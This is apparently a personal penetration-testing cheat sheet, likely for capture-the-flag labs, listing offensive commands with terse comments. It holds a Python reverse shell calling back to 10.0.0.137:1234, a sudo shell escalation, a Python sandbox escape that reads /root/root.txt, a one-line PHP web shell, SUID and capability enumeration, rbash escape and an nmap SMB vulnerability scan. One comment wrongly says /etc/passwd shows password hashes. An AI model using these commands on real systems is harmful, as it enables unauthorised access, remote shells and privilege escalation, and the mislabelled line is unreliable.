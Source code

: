 # Python Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#used to gain root access in some systems.
```
sudo python3.5 -c ‘import os; os.system(“/bin/sh”)’
```
#command used to open up a reverse shell from the browser.
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.137",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```
python escape characters:
```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
```
#can be used to find real host name.
```
curl -H 'Host: http://172.16.226.6' "http://172.16.226.6/'"
```
to exploit a cronjob
https://gtfobins.github.io/gtfobins/tar/

Shows the password hashes on a linux system
```
cat /etc/passwd
```
Shows the groups on a linux system
```
cat /etc/group
```
```
ls -lh /var/mail/
```
```
dpkg -l
```
Check for Suid binaries
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
```
 find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
Lists capabilities of binaries
```
getcap -r /
```
Shows user group files
```
find / -type f -group users 2>/dev/null
```
Simple php shell:
```
<?php system($_GET['0xdf']); ?>
```
ssh tunnel:
```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
list processes and open ports:
```
ps -aux

netstat -an
```
To escape rbash:
```
ssh mindy@10.10.10.51 -t bash
```
```
nmap --script smb-vuln* -p 445 10.10.10.4
```
